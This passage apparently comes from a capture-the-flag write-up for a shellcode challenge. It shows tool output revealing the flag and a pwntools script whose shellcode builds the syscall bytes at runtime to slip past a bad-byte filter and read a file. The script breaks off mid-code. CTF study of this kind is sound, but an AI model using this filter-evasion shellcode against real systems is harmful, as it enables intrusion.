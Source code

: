    ```sh
   [*] Switching to interactive mode

   [*] Process './babysc_no_syscall_check' stopped with exit code 0 (pid 22862)
   [DEBUG] Received 0x29 bytes:
       b'Executing shellcode!\n'
       b'\n'
       b'umcs{hello_friend}\n'
   Executing shellcode!

   umcs{hello_friend}
   [*] Got EOF while reading in interactive
   $
   ```

7. When running the script on original `babysc`:

   ```sh
   # other output
   [DEBUG] Received 0x10 bytes:
       b'Bad Byte at 18!\n'
   Bad Byte at 18!
   # other output
   ```

8. Change assembly code to dynamically load bytes `0x0f05` to replace `syscall`:

   ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov byte ptr [rip + encoded], 0x0f
   mov byte ptr [rip + encoded + 1], 0x05

   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   call encoded

   mov rdi, rax

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   call encoded

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   call encoded

   mov rax, 60
   xor edi, edi
   call encoded

   encoded:
   ```